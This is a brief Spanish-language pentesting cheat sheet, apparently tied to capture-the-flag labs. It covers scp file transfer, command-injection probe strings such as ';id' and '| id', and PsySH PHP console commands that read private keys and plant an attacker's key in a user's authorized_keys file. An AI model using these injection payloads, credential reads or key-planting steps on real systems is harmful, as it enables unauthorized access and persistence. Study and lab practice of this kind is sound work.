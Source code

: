 ## SSH file trasfer

Para poder trasferir datos del iphone a windows cuando uno tiene un usuario y password de ssh usa:

```
scp root@192.168.0.27:/tmp/rmq2.sqlite ./
```

Pero que pasa cuando es alrrevez de windows al iphone es asi:

```
scp .\bbvanetc.ipa root@192.168.123.87:/tmp/
```






## Web Inyeccion de comandos

Siempre que pruebes con Burp Suite o sin el un command injection procura probar estas convinaciones:

```
;id
| id
|| id
# ire añadiendo mas
```

### Psy Shell v0.9.9

 PsySH is a runtime developer console, interactive debugger and REPL for PHP. Algunas veces o mas bien siempre se tienen bloqueadas funciones de php que permiten ejecutar comandos y esto se puede ver con el phpinfo().

 ![image](https://github.com/gecr07/Acordeon/assets/63270579/c0161dcb-5260-466a-9409-7df413162e04)

Cuando tengas este escenario puedes leer y escribir archivos(si es que no esta bloqueado como arriba) de este modod puedes conseguir claves de ssh o bien meter tu autorized keys para poder conectarte con tu id_rsa. Los siguientes comandos son:

```
getcwd()

get_current_user()

system('echo test')

scandir("/home")

file_get_contents("/etc/os-release")

echo file_get_contents("/home/nairobi/ca.key")

To show env variables use the same var example

show $tokyo

file_put_contents('/home/dali/.ssh/authorized_keys', $publickey)


```
